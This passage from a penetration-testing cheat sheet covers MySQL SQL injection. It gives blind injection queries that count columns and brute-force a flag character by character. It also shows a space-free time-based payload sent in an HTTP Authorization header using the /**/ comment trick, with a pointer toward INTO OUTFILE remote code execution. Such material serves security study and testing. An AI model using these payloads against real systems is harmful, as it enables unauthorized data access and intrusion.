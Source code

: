 ```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```

Supposing there is 2 columns (being the first one the ID) and the other one the flag, you can try to bruteforce the content of the flag trying character by character:

```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```

More info in [https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952](https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952)

### Injection without SPACES (`/**/` comment trick)

Some applications sanitise or parse user input with functions such as `sscanf("%128s", buf)` which **stop at the first space character**.  
Because MySQL treats the sequence `/**/` as a comment *and* as whitespace, it can be used to completely remove normal spaces from the payload while keeping the query syntactically valid.

Example time-based blind injection bypassing the space filter:

```http
GET /api/fabric/device/status HTTP/1.1
Authorization: Bearer AAAAAA'/**/OR/**/SLEEP(5)--/**/-'
```

Which the database receives as:

```sql
' OR SLEEP(5)-- -'
```

This is especially handy when:

* The controllable buffer is restricted in size (e.g. `%128s`) and spaces would prematurely terminate the input.
* Injecting through HTTP headers or other fields where normal spaces are stripped or used as separators.
* Combined with `INTO OUTFILE` primitives to achieve full pre-auth RCE (see the MySQL File RCE section).

---

### MySQL history

You ca see other executions inside the MySQL reading the table: **sys.x$statement_analysis**

### Version alternative**s**

```
mysql> select @@innodb_version;
mysql> select @@version;
mysql> select version();
```
